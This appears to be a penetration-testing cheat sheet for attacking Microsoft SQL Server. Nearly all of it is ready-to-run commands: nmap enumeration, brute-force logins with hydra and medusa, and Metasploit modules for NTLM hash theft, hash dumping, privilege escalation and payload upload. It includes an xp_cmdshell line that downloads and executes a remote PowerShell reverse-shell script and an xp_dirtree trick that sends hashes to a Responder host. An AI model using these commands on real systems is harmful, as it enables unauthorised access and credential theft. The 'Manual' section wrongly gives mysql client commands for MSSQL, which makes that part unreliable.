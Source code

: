 ```yaml
---
description: (TCP 1433-4, 135/UDP 143)(TCP 1433-4, 135/UDP 143)
---
```


# MSSQL

## :information\_source: Introduction

#### [Microsoft SQL](https://medium.com/@toprak.mhmt/what-is-mssql-9a152d7d4ed0)

By default, the typical ports used by SQL Server and associated database engine services are: **TCP 1433, 4022, 135, 1434, UDP 1434.**

## :ballot\_box\_with\_check: Checklist

* [ ] Try to query the DB if you have creds
* [ ] heck for DAC (Dedicated Access Connection)
* [ ] Login brute force
* [ ] Try NTLM relay with a fake SMB server
* [ ] If you can get access, check for privilege escalation methods to gain admin access to DB
* [ ] Check for CVEs

## Enumeration

```
nmap -sV -p 1433,1433  <IP>
nmap --script ms-sql-info <IP>
auxiliary/scanner/mssql/mssql_ping
nmap --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER -sV -p 1433 <I
```

## Authenticate with Empty Password

```
# Attempts to authenticate to Microsoft SQL Servers using an empty password forthe sysadmin (sa) account.
ms-sql-empty-password
```

## Login Brute Force

```
nmap -p 1433 –script ms-sql-brute –script-args userdb=[user.txt] ,passdb=[pass.txt] [target
use auxiliary/scanner/mssql/mssql_login
hydra -L [user.txt] –P [pass.txt] [target] mssql
medusa -h [target] –U [user.txt] –P [pass.txt] –M mssql
crackmapexec mssql <IP> -d <Domain Name> -u usernames.txt -p passwords.txt
```

## Dedicated Admin Connection (DAC)

The DAC port is used to connect to the database instance when normal connection attempts fail, for example, when server is hanging, out of memory or in other bad states. In addition, the DAC port provides an admin with access to system objects otherwise not accessible over normal connections.

The DAC feature is accessible on the loopback adapter per default, but can be activated for remote access by setting the 'remote admin connection' configuration value to 1. In some cases, when DAC has been remotely enabled but later disabled, the sql browser service may incorrectly report it as available.

```
sudo nmap -sU -p 1434 --script ms-sql-dac <ip>
```

![](<../../.gitbook/assets/image (276) (1) (1) (1) (1) (1) (1) (1) (1).png>)

## Query (with credentials)

### Automated

Queries Microsoft SQL Server (ms-sql) instances for a list of databases, linked servers, and configuration settings.

{% hint style="warning" %}
Credentials are required
{% endhint %}

```
nmap --script ms-sql-config
# example:
nmap -p 1433 --script ms-sql-config --script-args mssql.username=sa,mssql.password=sa <host>
```

sample output:

![](<../../.gitbook/assets/image (274) (1) (1).png>)

#### Other nmap Scripts with Credentials

```
# Dumps the password hashes from an MS-SQL server in a format suitable
# Credentials required
ms-sql-dump-hashes

# Queries Microsoft SQL Server (ms-sql) instances for a list of databases a user hasaccess to.
# Credentials required
ms-sql-hasdbaccess

# Runs a query against Microsoft SQL Server (ms-sql).
# Credentials required.
ms-sql-query

# Queries Microsoft SQL Server (ms-sql) for a list of tables per database.
# Credentials required
ms-sql-tables

# Attempts to run a command using the command shell of Microsoft SQL Server (ms-sql)
# Credentials required
ms-sql-xp-cmdshell
```

#### Metasploit Modules:

```
#Set USERNAME, RHOSTS and PASSWORD
#Set DOMAIN and USE_WINDOWS_AUTHENT if domain is used
​
#Steal NTLM
msf> use auxiliary/admin/mssql/mssql_ntlm_stealer #Steal NTLM hash, before executing run Responder
​
#Info gathering
msf> use admin/mssql/mssql_enum #Security checks
msf> use admin/mssql/mssql_enum_domain_accounts
msf> use admin/mssql/mssql_enum_sql_logins
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/scanner/mssql/mssql_hashdump
msf> use auxiliary/scanner/mssql/mssql_schemadump
​
#Search for insteresting data
msf> use auxiliary/admin/mssql/mssql_findandsampledata
msf> use auxiliary/admin/mssql/mssql_idf
​
#Privesc
msf> use exploit/windows/mssql/mssql_linkcrawler
msf> use admin/mssql/mssql_escalate_execute_as #If the user has IMPERSONATION privilege, this will try to escalate
msf> use admin/mssql/mssql_escalate_dbowner #Escalate from db_owner to sysadmin
​
#Code execution
msf> use admin/mssql/mssql_exec #Execute commands
msf> use exploit/windows/mssql/mssql_payload #Uploads and execute a payload
​
#Add new admin user from meterpreter session
msf> use windows/manage/mssql_local_auth_bypass
```

#### impacket mssqlclient:

```
mssqlclient.py  -db volume -windows-auth <DOMAIN>/<USERNAME>:<PASSWORD>@<IP> #Recommended -windows-auth when you are going to use a domain. use as domain the netBIOS name of the machine
​
#Once logged in you can run queries:
SQL> select @@ version;
​
#Steal NTLM hash
sudo responder -I <interface> #Run that in other console
SQL> exec master..xp_dirtree '\\<YOUR_RESPONDER_IP>\test' #Steal the NTLM hash, crack it with john or hashcat
​
#Try to enable code execution
SQL> enable_xp_cmdshell
​
#Execute code, 2 sintax, for complex and non complex cmds
SQL> xp_cmdshell whoami /all
SQL> EXEC xp_cmdshell 'echo IEX(New-Object Net.WebClient).DownloadString("http://10.10.14.13:8000/rev.ps1") | powershell -noprofile'
```

#### sqsh

```
sqsh -S <IP> -U <Username> -P <Password> -D <Database>
```

### Manual

#### Local:

```
mysql -u root # Connect to root without password
mysql -u root -p # A password will be asked (check someone)
mysql -u root -h 127.0.0.1 -e 'show databases;'
```

Remote:

```
mysql -h <Hostname> -u root
mysql -h <Hostname> -u user@target-host
```

## MSSQL - SMB Relay Attack

If we are in the local network we can run an MitM attack and grab NTLM hashes by setting up a fake SQL server and making the service authenticate against our server.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/executing-smb-relay-attacks-via-sql-server-using-metasploit" %}

## Stored Procedures (db\_owner to sysadmin)

#### if we have the credentials of a DB user we can become sysadmin and execute commands remotely:

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-1-untrustworthy-databases" %}

### Metasploit

```
use auxiliary/admin/mssql/mssql_esclate_dbowner
set rhost 172.20.10.2
set rport 1433
set username db1_owner
set password MyPassword!
```

## Stored Procedures (user impersonation)

This technique is mostly used for privilege escalation.

{% embed url="https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-stored-procedures-part-2-user-impersonation" %}





















